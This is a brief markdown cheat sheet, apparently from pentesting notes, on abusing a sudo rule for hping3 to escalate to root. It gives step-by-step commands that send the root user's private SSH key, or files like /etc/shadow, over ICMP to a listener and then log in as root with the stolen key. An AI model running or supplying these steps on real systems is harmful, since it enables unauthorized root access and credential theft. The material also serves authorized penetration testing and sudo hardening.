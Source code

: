 # Hping3 Privilege Escalation

Link: https://gtfobins.github.io/gtfobins/hping3/

## Sudo 

    User USER may run the following commands on HOSTNAME:
      (root) /usr/sbin/hping3 --icmp *

### 1) If you have credentials from the user, create a second session via SSH.

    ssh USER@IP

### 2) On your newly created SSH session, run this to listen for ICMP packets

    sudo /usr/sbin/hping3 --icmp 127.0.0.1 --listen signature --safe

### 3) On your first session, run this to dump the root's private SSH key (or any other sensitive file like /etc/shadow for example)

    sudo /usr/sbin/hping3 --icmp 127.0.0.1 -d 100 --sign signature --file /root/.ssh/id_rsa

### 4) Copy the key on your machine, then SSH as root

    chmod 600 id_rsa
    ssh root@IP -i id_rsa
